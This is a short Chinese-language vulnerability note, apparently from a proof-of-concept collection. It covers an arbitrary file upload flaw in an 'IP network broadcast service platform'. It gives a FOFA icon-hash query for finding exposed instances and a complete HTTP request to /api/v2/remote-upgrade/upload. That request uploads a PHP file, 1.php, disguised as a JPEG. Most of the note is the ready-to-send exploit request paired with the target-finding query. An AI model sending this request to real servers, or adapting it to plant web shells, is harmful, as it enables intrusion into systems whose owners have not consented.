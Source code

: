 # IP网络广播服务平台upload存在任意文件上传漏洞



IP网络广播服务平台存在任意文件上传漏洞，攻击者可以上传恶意文件，导致服务器安全问题。

## fofa



```
icon_hash="-568806419"
```

​    

## poc



```
POST /api/v2/remote-upgrade/upload HTTP/1.1
Host
Content-Length: 197
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytiZYyyKkbwCxtHC1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1/api/v2/remote-upgrade/upload
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundarytiZYyyKkbwCxtHC1
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarytiZYyyKkbwCxtHC1--
```

![image-20240925215357742](C:\Users\18484\AppData\Roaming\Typora\typora-user-images\image-20240925215357742.png)

![image-20240925215453624](C:\Users\18484\AppData\Roaming\Typora\typora-user-images\image-20240925215453624.png)

